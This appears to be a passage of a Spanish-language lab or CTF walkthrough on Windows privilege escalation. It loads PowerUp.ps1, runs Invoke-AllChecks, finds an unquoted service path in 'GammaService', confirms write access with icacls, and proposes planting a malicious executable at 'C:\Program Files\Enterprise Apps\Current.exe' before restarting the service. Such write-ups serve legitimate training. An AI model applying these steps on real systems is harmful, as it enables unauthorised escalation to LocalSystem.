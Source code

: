 ```
----                 -------------         ------ ----
[...]
-a----         5/26/2023   3:13 AM         600580 PowerUp.ps1


PS C:\Users\steve> Import-Module .\PowerUp.ps1
PS C:\Users\steve> . .\PowerUp.ps1
PS C:\Users\steve>
```

Seguidamente ejecutamos el comando 'Invoke-AllChecks':

```
ServiceName    : GammaService
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users;
                 Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
CanRestart     : True
Name           : GammaService
Check          : Unquoted Service Paths
```

De entre los resultados obtenemos que existe un servicio vulnerable a 'Unquoted Service Paths' según el campo 'Check' y además podemos reiniciarlo. 

De esta forma, revisamos el path del ejecutable:

```
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

De esta forma, sabemos que el sistema va a intentar ejecutar los siguientes programas en busca del ejecutable asociado al servicio:

```
C:\Program.exe
C:\Program Files\Enterprise.exe
C:\Program Files\Enterprise Apps\Current.exe
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

Así, comprobamos nuestros permisos sobre los directorios antecedentes:

```
PS C:\Users\steve> icacls "C:\Program Files\Enterprise Apps"
C:\Program Files\Enterprise Apps NT SERVICE\TrustedInstaller:(CI)(F)
                                 NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                                 BUILTIN\Administrators:(OI)(CI)(F)
                                 BUILTIN\Users:(OI)(CI)(RX,W) <---
```

De esta forma, vemos que tenemos permisos sobre el directorio "Enterprise Apps", de esta forma, podemos escribir un ejecutable malicioso en "C:\\Program Files\\Enterprise Apps\\Current.exe" y reiniciar el servicio.
